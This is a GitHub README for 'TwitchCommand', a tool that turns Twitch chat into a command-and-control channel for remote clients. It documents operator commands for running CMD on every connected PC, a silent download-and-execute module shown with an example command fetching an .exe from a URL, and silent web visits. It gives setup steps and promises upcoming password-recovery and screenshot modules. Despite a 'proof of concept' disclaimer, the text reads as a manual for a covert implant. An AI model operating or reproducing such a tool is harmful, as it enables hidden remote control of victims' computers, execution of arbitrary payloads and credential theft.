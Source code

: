 # TwitchCommand [![Open Source Love](https://badges.frapsoft.com/os/v2/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/) [![PRs Welcome](https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square)](http://makeapullrequest.com) [![GPL Licence](https://badges.frapsoft.com/os/gpl/gpl.svg?v=103)](https://opensource.org/licenses/GPL-3.0/)
A remote administration tool that uses Twitch Chat as a Command and Control server. This program connects clients to a designated Twitch Chat and listens for commands. Inspired by the [Slackor](https://github.com/Coalfire-Research/Slackor) project. Make sure to check it out.

# Requirements
- Twitch account.
- Python 3.x
- PyInstaller (will be required with the next build.)

# Disclaimer
The usage of this program directly violates the Twitch Developer Agreement. The usage of it will lead to the termination of your account and possible further action based on the severity of its usage.

This program was created as a Proof of Concept and it is not intended to be used in a malicious way. I am not responsible for any damages or criminal charges that come from using it.

# Features/Modules
`cmd`  Windows CMD commands. Structured as `cmd command`

`de` Download and execute. File is removed after execution. Structured as `de link`. May throw `Win5 Error` if the user is prompted for UAC.

`visit`  Silently visits a website. Structured as `visit link`

`exit` Disconnects the tageted client(s). This does not remove the file. Structured as `exit`


# Usage
Navigate to the twitch page of the channel you selected when making the program.

Upon connection to a server, a new client will announce its presence and client name. If you would like to view a list of all connected clients please use the list command. 

![New Connection.](https://i.imgur.com/fT6yice.png)

`!list`

![List connections.](https://i.imgur.com/RY81sGt.png)

This program also features different modules which can be used.

`!act client command action`

- Act is the keyword to use a command for the client.
- Client specifies a singular user or a group. You can use a specific name (ex: DESKTOP-TEST) or 'all'.
- Command specifies the intended module to use.
- Action is what to use with the selected module. For example 'start.' will open the current directory on the clients PC when using CMD.

An example cmd command would be:

`!act all cmd start.`

![Client action.](https://i.imgur.com/g7d5P83.png)

This would open the current directory on every connected clients PC. Note that the photo is from an older version and True is no longer required.

An example download+execute command would be:

`!act DESKTOP-TEST de https://example.com/files/file.exe`

It currently only supports exe files.

# Creating the program.
### Coming soon: a builder.
The requirements list is currently not necessary but will be for future builds.

Making the program is quite simple. 
- Change the NICK value on line 10 to your Twitch username.
- Change the PASS value on line 11 to your OAuth password (acquire it here: https://twitchapps.com/tmi/)
- Change the CHAN value on line 12 to a desired channel to listen in. It's recommended to use your personal twitch chat as a streamer may ban an account they see posting odd messages and commands.
- Change CLIENT_ID value on line 20 to an Imgur api client id. This is only necessary if you want to use the `screen` command. The screen command is currently not in the program as it was added too early and is not ready. It will be coming soon.

# Upcoming features
- More modules (password recovery and screenshot coming soon.)
- Download & execute supporting all file types.
- A builder to simplify making the program as well as making it an exe.
- Command line based control module as an alternative to the twitch website.
